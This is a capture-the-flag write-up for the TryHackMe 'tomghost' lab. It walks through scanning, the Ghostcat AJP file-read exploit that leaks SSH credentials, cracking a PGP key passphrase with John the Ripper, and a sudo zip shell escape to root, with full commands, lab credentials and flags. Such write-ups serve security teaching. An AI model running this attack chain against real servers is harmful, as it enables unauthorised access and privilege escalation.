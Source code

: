 # tomghost

## Task 1 -- Flags
```
export IP=10.10.44.2
```

Initial nmap scan:

```bash
jeffrowell@kali:~/Documents/TryHackMe/tomghost$ nmap -sC -sV -Pn -n -oN nmap/initial $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-31 13:20 MDT
Nmap scan report for 10.10.44.2
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.13 seconds
```

Initial gobuster scan:

```bash
jeffrowell@kali:~/Documents/TryHackMe/tomghost$ gobuster dir -u http://$IP:8080 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.44.2:8080
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/31 13:21:16 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/manager (Status: 302)
===============================================================
2020/05/31 13:22:22 Finished
===============================================================
```


### 1 - Compromise this machine and obtain user.txt
Doing some research on tomcat 9.0.30, we can see in the [changelogs](https://tomcat.apache.org/security-9.html#Fixed_in_Apache_Tomcat_9.0.31) that there is a vulnerability when using the Apache JServ Protocol (AJP) that we found running on port 8009, will allow us to read local files. Looking in searchsploit for ajp, we can find an exploit script `multiple/webapps/48143.py`:

```bash
jeffrowell@kali:~/Documents/TryHackMe/tomghost$ searchsploit ajp
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
AjPortal2Php - 'PagePrefix' Remote File Inclusion                                                                                                                                                          | php/webapps/3752.txt
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                                                                                                                                          | multiple/webapps/48143.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

After running this script we are able to access a local file that contains the SSH credentials to a user:

```bash
jeffrowell@kali:~/Documents/TryHackMe/tomghost$ python /usr/share/exploitdb/exploits/multiple/webapps/48143.py $IP
Getting resource at ajp13://10.10.44.2:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

Now we can ssh to the box with `skyfuck:8730281lkjlkjdqlksalks`. Once we log in we see there is an encrypted credentials file and a private key in skyfuck's home directory, but no user flag.

```bash
jeffrowell@kali:~/Documents/TryHackMe/tomghost$ ssh $IP -l skyfuck
skyfuck@10.10.213.225's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Sun May 31 13:03:07 2020 from 10.8.21.42
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

Looking around in the home directory we find another user `merlin`, that has the user flag. And we can read from it!

```bash
skyfuck@ubuntu:~$ cd ..
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ ls merlin/
user.txt
skyfuck@ubuntu:/home$ cat merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

### 2 - Escalate privileges and obtain root.txt

At first I started running linpeas and looking for typical ways of privilege escalation on linux, but to no avail. There didn't seem to be any SUID binaries to abuse, no faulty permissions, or any other low hanging fruit for linux privesc. Then I went back and looked at the encrypted credentials file in skyfuck's home directory. We have the private key and can import that using gpg and try to decrypt the file:

```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ gpg --import tryhackme.asc
gpg: key C6707170: secret key imported
gpg: /home/skyfuck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

Now when trying to decrypt the `credentials.gpg` file, it looks like the private key was password protected:

```bash
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
Enter passphrase:
```

We can copy the private key file to our local machine and use `gpg2john` to make a hash out of the private key file to crack the password:

```bash
jeffrowell@kali:~/Documents/TryHackMe/tomghost$ /opt/JohnTheRipper/run/gpg2john tryhackme.asc >> for_john

File tryhackme.asc
jeffrowell@kali:~/Documents/TryHackMe/tomghost$ cat for_john
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```

Running JtR on this file using rockyou.txt takes no more than 10 seconds, and now we have the password to the private key:

```bash
jeffrowell@kali:~/Documents/TryHackMe/tomghost$ /opt/JohnTheRipper/run/john for_john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:01 DONE (2020-05-31 14:08) 0.8547g/s 916.2p/s 916.2c/s 916.2C/s marshall..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now, going back to the server and trying to decrypt the `credentials.pgp` file once more, we now have the credentials for merlin:

```bash
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

So once we log in as the merlin user, we can find immediately our path to root. `zip` is a SUID binary that merlin can run to escalate to the root user.
```bash
jeffrowell@kali:~/Documents/TryHackMe/tomghost$ ssh $IP -l merlin
merlin@10.10.213.225's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Tue Mar 10 22:56:49 2020 from 192.168.85.1
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Looking in [GTFOBins](https://gtfobins.github.io/gtfobins/zip/) we can abuse this zip binary to become root and get the flag:

```bash
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
THM{Z1P_1S_FAKE}
```
